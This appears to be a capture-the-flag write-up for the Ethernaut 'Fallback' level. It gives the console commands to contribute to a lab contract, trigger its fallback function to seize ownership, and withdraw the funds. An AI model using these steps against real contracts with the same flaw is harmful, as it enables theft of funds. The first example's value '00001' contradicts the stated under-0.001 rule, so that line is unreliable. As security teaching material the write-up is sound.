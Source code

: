 # Fallback

## Problem

The player has to claim ownership of the contract.

## Solution

It can be seen in the contract that to claim ownership you must execute the fallback function by sending an amount of Ether, but first it's necessary to have previously contributed to the contract.

1- contribute to the contract

The value in ethers sent must be less than `0.001` for the contribution to be valid.

```js
contract.contribute.sendTransaction({ value: toWei('00001', 'ether')})

// or

contract.contribute({ value: toWei('0.0001', 'ether')})
```

Once we contribute to the contract, we only need to send any amount of Ethers to the Fallback function to claim ownership.

2- send transaction to fallback function

```js
contract.sendTransaction({ value: toWei('0.0001', 'ether')})
```

3- withdraw

```js
contract.withdraw()
```
